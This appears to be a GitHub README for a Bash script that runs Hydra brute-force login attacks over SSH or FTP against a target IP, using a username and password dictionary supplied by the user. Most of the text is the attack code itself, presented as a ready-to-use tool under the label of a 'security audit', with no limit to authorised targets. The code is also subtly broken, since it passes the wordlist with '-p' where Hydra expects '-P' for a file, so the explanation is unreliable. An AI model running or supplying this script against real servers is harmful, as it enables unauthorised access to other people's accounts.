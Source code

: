 # Automatized Hydra Attacks

## SSH and FTP Bruteforce Attack Script with Hydra

This script uses Hydra to perform a bruteforce attack on a target IP address via SSH or FTP. It takes the target IP address, username, and dictionary file as input from the user.

### Prerequisites

- Hydra must be installed on the system.
- The dictionary file must exist in the current directory.

### Step-by-Step Explanation of the Code

1. **Check if Hydra is installed**: The script first checks if Hydra is installed on the system. If it is not, the user is prompted to install it. If the user chooses not to install Hydra, the script exits.

```shellscript
if ! command -v hydra &> /dev/null; then
    echo "Hydra is not installed. Would you like to install it? (yes/no): "
    read choice

    if [ "$choice" = 'yes' ]; then
        echo "Attempting to install hydra..."

        # give specific installation command for hydra depending on the system
        # if your system uses apt-get
        sudo apt-get update
        sudo apt-get install hydra

        # if your system uses yum
        # sudo yum install hydra

        # if your system uses pacman
        # sudo pacman -S hydra

        echo "Hydra has been installed. Please run the script again."
        exit 0
    else
        echo "Exiting the script..."
        exit 0
    fi
else
    echo "Hydra is installed"
fi
```

2. **Check if the dictionary file exists**: The script then checks if the dictionary file exists in the current directory. If it does not, the user is notified and the script exits.

```shellscript
if [ ! -f "$dictionary" ]; then
    echo -e "${red}The file $dictionary does not exist. You must put it inside the current directory${no_color}"
    exit 1
fi
```

3. **SSH attack function**: This function starts the bruteforce attack on the target IP address via SSH. It uses Hydra with the specified username and dictionary file, and sets the number of threads to 4 for increased speed. The output of Hydra is captured in a variable.

```shellscript
ssh_attack(){
    echo -e "${green}Starting security audit via SSH on $target ... ${no_color} "
    sleep 2
    output=$(hydra -l "$user" -p "$dictionary" ssh://"$target" -t 4 -vV 2>/dev/null)

    if echo "$output" | grep -qi "login:\|password:"; then
        password=$(echo "$output" | grep -oP "password: \K.*")
        echo -e "${green} Password found is ${no_color} $password"
    else
        echo -e "${red} Password not found on the archive${no_color}"
        exit 1
    fi
}
```
4. **FTP attack function**: This function starts the bruteforce attack on the target IP address via FTPç. It uses Hydra with the specified username and dictionary file, and sets the number of threads to 4 for increased speed. The output of Hydra is captured in a variable.

```shellscript
ftp_attack(){
    echo -e "${green}Starting security audit via FTP on $target ... ${no_color} "
    sleep 2
    output=$(hydra -l "$user" -p "$dictionary" ftp://"$target" -t 4 -vV 2>&1)

    if echo "$output" | grep -qi "login:\|password:"; then
        password=$(echo "$output" | grep -oP "password: \K.*")
        echo -e "${green} Password found is ${no_color} $password"
    else
        echo -e "${red} Password not found on the archive${no_color}"
        exit 1
    fi
}
```
5. **Choose function**: This section ensures that the user provides a valid input ("SSH" or "FTP") for the type of attack they want to perform. If the input is valid, the corresponding function (ssh_attack or ftp_attack) is called. If the input is not valid, an error message is displayed, and the script exits with an error code.

```shellscript
read -p "Choose if you want to do the attack via SSH or FTP (write SSH or FTP): " choose
if [ "$choose" == "SSH" ]; then
    ssh_attack
elif [ "$choose" == "FTP" ]; then
    ftp_attack
else
    echo -e "${red} You must write SSH or FTP${no_color}"
    exit 1
fi
```
